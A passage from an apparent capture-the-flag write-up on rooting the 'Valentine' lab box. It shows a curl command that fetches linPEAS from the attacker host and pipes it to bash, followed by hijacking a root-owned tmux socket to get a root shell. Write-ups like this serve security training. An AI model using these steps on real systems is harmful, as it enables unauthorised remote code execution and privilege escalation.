 ```
python -m SimpleHTTPServer 80
```

The reason we host a simple HTTP server is because we need a way to grab the file from our host Kali machine to the target box. A great way to do that is with an HTTP server. So now that our HTTP server is being hosted on our Kali box, we can go ahead and grab it from the box we just got a shell on. I like to pipe this to bash from curl. What this means is that we are going to grab the contents of the linPEAS file and then we are going to have it executed it through bash. This is how that will look:

```
curl http://<your_ip>:80/linpeas.sh | bash
```

Once you do that on the target box we got a shell on it should start outputting a lot of info. All of this info is relatively useful but may be information overload at first. As you pwn more and more boxes and get familiar with the OS, anomalies will start to become more and more apparent with practice. After linPEAS was done running, I went ahead and scrolled from top to bottom to see if anything interesting was there. Of course, there was something very interesting. 

```
[+] Searching tmux sessions
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions

root       1020  0.0  0.1  26416  1676 ?        Ss   16:57   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

There is a tmux session being ran as the root user.

```
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Jun 09 16:57 /.devs/dev_sess
```

We can see using `ls -la` on the path `/.devs/dev_sess` that this is a socket file. A socket file is just a special file used for inter-process communication which is used to enable communication between two processes. This tmux session is using the path of `/devs/dev_sess` as the path to the server socket. We are able to access this socket using `-S` and specifying the path to interact with this tmux session.

```
tmux -S /.devs/dev_sess
root@Valentine:/home/hype# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

And we are root! There was also another alternative way I thought of to get root on this box which is through `Dirty Cow` which is a kernel exploit that affects mostly older distributions of Linux-based operating systems. This box was Ubuntu 12 so was a pretty high likelihood that it would work. (Checked some other blog posts and it indeed is possible!) But that's about it for this box! Really enjoyed this box as it brought up a nice initial foothold through the Heartbleed vulnerability and gave an easy yet interesting privilege escalation scenario.

